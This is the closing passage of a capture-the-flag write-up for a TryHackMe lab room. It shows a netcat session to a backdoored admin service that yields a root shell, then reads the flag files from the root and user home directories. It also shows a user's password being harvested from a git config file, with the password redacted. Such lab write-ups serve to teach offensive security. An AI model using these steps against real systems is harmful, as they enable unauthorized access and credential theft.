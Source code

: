 The flags can be found inside `root`'s and `think`'s home directories.
```console
m3ga@kali:~$ nc 10.10.102.144 8000
admin
Password:
[REDACTED]
Welcome Admin!!! Type "shell" to begin
shell
# id
id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt
[REDACTED]
# cat /home/think/user.txt
[REDACTED]
```

## Outro
Many thanks to the creator of this room, [josemlwdf](https://tryhackme.com/p/josemlwdf).

This was a great room for beginners. I'm disappointed that I didn't get user access first but it's whatever :)

It would have been nice if the old password I found in the repository would have been the `think` user's password since it matched the username somewhat. The `/opt/dev` folder could've been made to be only accessible to `think` so that it was a nice `foothold --> user --> root` type of CTF.

Anyway, it was fun.

### Update
Looking at [jaxafed's writeup](https://jaxafed.github.io/posts/tryhackme-pyrat/), I found the intended way. Apperantly, the `think` user's password can be found inside the git's config file.

```console
www-data@Pyrat:~$ cat /opt/dev/.git/config
[core]
        repositoryformatversion = 0
        filemode = true
        bare = false
        logallrefupdates = true
[user]
        name = Jose Mario
        email = josemlwdf@github.com

[credential]
        helper = cache --timeout=3600

[credential "https://github.com"]
        username = think
        password = [REDACTED]
```

This makes sense now. :)


\- m3gakr4nus
